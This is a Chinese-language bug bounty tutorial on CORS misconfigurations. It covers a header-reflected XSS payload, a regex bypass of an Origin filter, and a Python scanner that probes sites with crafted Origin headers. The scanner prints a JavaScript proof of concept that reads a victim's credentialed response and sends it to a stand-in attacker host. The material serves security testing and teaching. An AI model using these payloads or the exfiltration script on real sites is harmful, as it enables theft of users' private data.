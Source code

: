 ```yaml
---
layout: post
title: BugBounty基础 - CORS
---
```


## 介绍
---

关于CORS的过多介绍这里不再赘述，以下文章很清楚的描写了相关信息:

> 通过访问攻击者部署的网站，请求目标服务器，从而跨域访问受害者的相关资源

[Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[Advanced CORS Exploitation Techniques](https://corben.io/blog/18-6-16-advanced-cors-techniques)


## 深入理解
---

### 在无COOKIE和认证时进行客户端缓存投毒(Client-Side cache poisoning)

> 此情况网站会将指定的**自定义** http头用作回显

```
GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>
```


### 一种对Origin头过滤的案例及绕过

```json
SetEnvIf Origin "^https?:\/\/(.*\.)?xxe.sh([^\.\-a-zA-Z0-9]+.*)?" AccessControlAllowOrigin=$0Header set Access-Control-Allow-Origin %{AccessControlAllowOrigin}e env=AccessControlAllowOrigin
```

```
[^\.\-a-zA-Z0-9] = does not match these characters: "." "-" "a-z" "A-Z" "0-9"+ = a quantifier, matches above chars one or unlimited times (greedy).* = any character(s) except for line terminators
```

> 从 xxe.sh阻止所有子域和这些域上的任何端口进行跨域访问

使用空格进行绕过 `. - a-z A-Z 0-9` 正则匹配

```
Origin: 'http://xxx.xxe.sh .payload'
```

随后修改hosts文件

```
127.0.0.1 xxx.xxe.sh_.payload
```

## 代码实现
---

既然知道了能够通过 `Access-Control-Allow-Origin` 和 `Access-Control-Allow-Credentials` 验证是否存在CORS，以及了解了相关的绕过方法和触发方法，那么做一个简单的扫描器也轻而易举:

```python
#python3
import requests
import re
import sys

if len(sys.argv) < 2:
    print("requires a url parameter.")
    sys.exit(0)
else:
    url = sys.argv[1]

def CheckCORS(url):
    domain = re.search(r"https?://([\w.-]+)/", url)
    domain = domain.group(1)
    payload = ['https://'+domain+'.test.com','http://'+domain+'.test.com','https://'+domain+' .test.com','https://'+domain+'_.test.com','null','https://www.test.com','http://www.test.com']
    POC = """
	var req = new XMLHttpRequest();  
	req.onload = reqListener;  
	req.open('get','"""+url+"""',true);  
	req.withCredentials = true;  
	req.send();  
  
	function reqListener() {  
	    location='//atttacker.net/log?key='+this.responseText;  
	};
	"""
    for i in range(len(payload)):
        try:
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Origin": payload[i]
            }
            response = requests.get(url,headers=headers)
            acao_headers = response.headers['Access-Control-Allow-Origin']
            acac_headers = response.headers['Access-Control-Allow-Credentials']
            if (acao_headers == payload[i] or  acao_headers == '*') and acac_headers == "true":
                print("{} has a CORS vulnerability.".format(url))
                print("try to use poc:\n {}".format(POC))
                print("change hosts file to: 127.0.0.1  {}\nand put POC HTML file in HTTP Server.".format(payload[i]))
                break
                return url
        except:
            pass

if __name__ == "__main__":
    CheckCORS(url)
    
```